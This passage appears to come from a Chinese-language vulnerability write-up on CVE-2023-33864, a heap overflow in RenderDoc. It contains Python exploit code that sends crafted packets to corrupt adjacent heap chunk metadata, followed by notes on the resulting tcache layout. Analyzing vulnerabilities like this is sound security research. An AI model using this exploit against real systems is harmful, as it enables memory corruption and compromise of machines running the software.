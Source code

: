 1. 对 m_BufferBase 缓存制造堆溢出，首先第一次 send 把 m_InputSize 变量变成0x400000

```python
s = socket(AF_INET, SOCK_STREAM)
s.connect((ip, port))
packet = p32(0x2 | ChunkCallstackFlag) \
        + p32(0x40) \
        + b'\xff' * 0x200 \
        + p32(0x1) \
        + p32(0) \
        + b'\x00\x00\x00\x01' \
        + b'\xfe' * 16 * 1024 * 1024
    
s.sendall(packet)
# 0x90 是溢出边界
# 任意控制相邻堆块的 prev_size 字段和 size 字段
# packet = b'b' * 0x1000
# 0xfffffffffec12000 是 0x13EE000 的负数的补码
# glibc mmap的阈值是16MB
packet = b'b' * 0x80 + p64(0x10050) + p64(0x145) + p64(0xdeadbeefdeadbeef) * 0x26
packet += p64(0xfffffffffec12000) + p64(0x1bef007)
s.sendall(packet)
```

可以看到本轮在旧的callstack的后面分配了新的callstack，长度为0x210。旧的callstack被放到了tcache 里面。形成了如下的堆布局：

![renderdoc-第 5 页.jpg](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/renderdoc-%E7%AC%AC_5_%E9%A1%B5.jpg)

![截屏2025-05-27 20.08.14.png](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/%E6%88%AA%E5%B1%8F2025-05-27_20.08.14.png)
